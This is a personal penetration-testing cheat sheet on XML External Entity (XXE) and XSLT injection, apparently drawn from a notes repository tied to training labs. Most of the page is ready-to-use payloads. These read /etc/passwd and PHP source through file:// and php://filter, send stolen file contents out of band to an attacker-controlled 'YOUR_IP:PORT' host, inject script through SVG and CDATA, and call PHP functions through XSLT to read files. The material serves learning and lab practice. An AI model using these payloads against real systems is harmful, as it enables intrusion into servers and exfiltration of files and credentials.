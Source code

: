 # XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
[![web_attacks](../../../../_badges/htb/web_attacks.svg)](https://academy.hackthebox.com/course/preview/web-attacks)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Arbitrary file access <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack <small>(often patched in modern web servers)</small>
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS attack](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band**: same channel to attack and fetch results
* **Out of Band/Blind**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the string `Hello, World!`. A vulnerable XML parser will replace the anchor `&poc;` inside the root element with the string.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc "Hello, World!">]>
<root>&poc;</root>
```

⚠️ I didn't test if this was the only PoC/sign of a possible XXE.

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

When using in-band XXE, inject the anchor in a tag that is displayed.

#### Stealing files

We can use the `file://` protocol to read simple files.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&xxe;</root>
```

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```

Alternatively, we can try to use CDATA, but due to some security protections in most XML parsers, you need to host the payload on your server to be allowed to merge XML parameter entities (`%`).

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd`:

```xml!
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % end "]]>">
<!ENTITY xxe "%begin;%file;%end;">
```
</div><div>

#### XSS attack

If the XML is displayed, you can try an XSS attack using CDATA.

```xml!
<?xml version="1.0"?>
<root><![CDATA[<script>console.log('test')</script>]]></root>
```

#### Out of Band XSS

If we cannot see any output, we may first try to see if we can see error messages <small>(missing/invalid tag, reference, etc.)</small> or connect to our server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd` if you can see error messages:

```xml!
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
%error;
```

Or expose the following XML at `http://OUR_IP:PORT/xxe.dtd`. Don't forget to reference `&payload;` in the injected XML.

```xml!
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % oob "<!ENTITY payload SYSTEM 'http://YOUR_IP:PORT/?payload=%file;'>">
%oob;
```

📚 We could also try DNS exfiltration (`<payload>.example.com`).
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML. If the XSLT parser is vulnerable, we may be able to execute some code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
</body>
</html>
```
</div><div>

You may then inject something inside the body:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?
</div><div>
</div></div>